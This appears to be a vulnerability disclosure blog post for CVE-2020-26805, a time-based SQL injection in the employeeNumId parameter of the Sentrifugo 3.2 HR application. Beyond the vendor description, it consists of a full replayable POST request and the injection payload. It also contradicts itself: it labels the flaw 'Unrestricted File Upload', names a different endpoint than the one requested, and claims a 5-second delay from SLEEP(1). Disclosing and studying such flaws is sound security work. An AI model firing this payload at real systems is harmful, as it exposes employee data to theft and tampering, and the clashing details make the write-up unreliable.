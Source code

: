 ```yaml
---
title: Sentrifugo 3.2 | SQLi [employeeNumId] parameter | CVE-2020-26805
author: Fatih Çelik
date: 2020-10-06 11:33:00 +0800
categories: [Vulnerability Research]
tags: [vulnerability research]
math: true
mermaid: true
---
```


**Software**: https://sourceforge.net/projects/sentrifugo/

**Version**: 3.2

**Vulnerability**: Unrestricted File Upload

**CVE**: CVE-2020-26805

> Sentrifugo is a FREE and powerful Human Resource Management System that can be easily configured to meet your organizational needs... Sentrifugo makes your organization’s HR process easier. It is packed with HR essential modules like Appraisal, Time Management, Leave Management, Employee Management, Analytics, Hiring/Recruitment, Background Check, Service Desk and much more.Sentrifugo furnishes a complete HRM solution facilitating a strategic and comprehensive approach to manage people and the workplace, thus enabling the employee(s) to contribute effectively and productively towards the organization’s goals. Sentrifugo is the only solution you'll need for managing HR processes. It offers a host of adaptable features to meet the needs of both managers and employees.

Reference:  https://sourceforge.net/projects/sentrifugo/

### **Vulnerability Description:**

In Sentrifugo web application, admin can edit employee's informations via this endpoint —> sentrifugo/index.php/empadditionaldetails/edit/userid/2. In this POST request, employeeNumId parameter is affected by SQLi vulnerability. Attacker can inject SQL commands into query, read data from database or write data into the database. If you send the below request, you will get the response approximately 5 seconds after because of the SLEEP command.

```
POST /sentrifugo/index.php/employee/edit/id/2 HTTP/1.1
Host: 192.168.1.6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 421
Origin: http://192.168.1.6
Connection: close
Referer: http://192.168.1.6/sentrifugo/index.php/employee/edit/id/2
Cookie: PHPSESSID=4p9aptkj3tg0kp675mtaf9d02v
Upgrade-Insecure-Requests: 1

tmp_emp_name=&act_inact=0&id=2&user_id=2&final_emp_id=EMPP1&id=2&user_id=2&employeeId=EMPP&employeeNumId=1' AND (SELECT 6376 FROM (SELECT(SLEEP(1)))WoTp) AND 'qstJ'='qstJ&prefix_id=&firstname=adas&lastname=asdasd&hid_modeofentry=Direct&disp_requi=&emprole=2&emailaddress=asdasd%40tasd.com&jobtitle_id=&position_id=&date_of_joining=2020%2F10%2F13&years_exp=&office_number=&extension_number=&office_faxnumber=&submit=Update
```

**Payload**,

```
employeeNumId=1' AND (SELECT 6376 FROM (SELECT(SLEEP(1)))WoTp) AND 'qstJ'='qstJ
```
